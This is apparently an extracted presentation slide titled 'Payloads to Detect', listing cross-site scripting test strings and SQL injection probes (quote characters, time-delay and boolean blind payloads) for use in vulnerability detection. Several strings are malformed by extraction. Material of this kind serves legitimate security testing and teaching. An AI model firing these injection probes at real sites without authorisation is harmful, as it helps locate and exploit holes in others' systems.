

# Cont.
Payloads to Detect
XSS
pattern = [“ <>’ ", “ <>“ ", “ ‘ “ ", "<svg "ons>", " onfocus="alert(1);“ , "<svg/onload=alert(1)>"]
SQL
quotes = [‘,’’,`,\]
time based = ;WAITFOR DELAY '00:00:01’--,;WAITFOR DELAY '00:00:01'-- -,;WAIT FOR DELAY 	                      '00:00:01’#,;WAIT FOR DELAY '00:00:01’; ;SELECT SLEEP(2)--,                                                                       		      ;SELECT SLEEP(2)-- -,;SELECT SLEEP(2)#,;SELECT SLEEP(2); ;SELECT                 		       PG_SLEEP(2)--,;SELECT PG_SLEEP(2)-- -,;SELECT PG_SLEEP(2)#,;SELECT     	                       PG_SLEEP(2); ;SELECT PG_SLEEP(2)--,;SELECT PG_SLEEP(2)-- -,;SELECT   	                       PG_SLEEP(2)#,;SELECT PG_SLEEP(2);
blind based = [' AND 1=1--', ' AND 1=2--’], [' AND 1=1-- -', ' AND 1=2-- -’], [' AND 1=1#', ' AND 		       1=2#’], [' AND 1=1;', ' AND 1=2;’]

21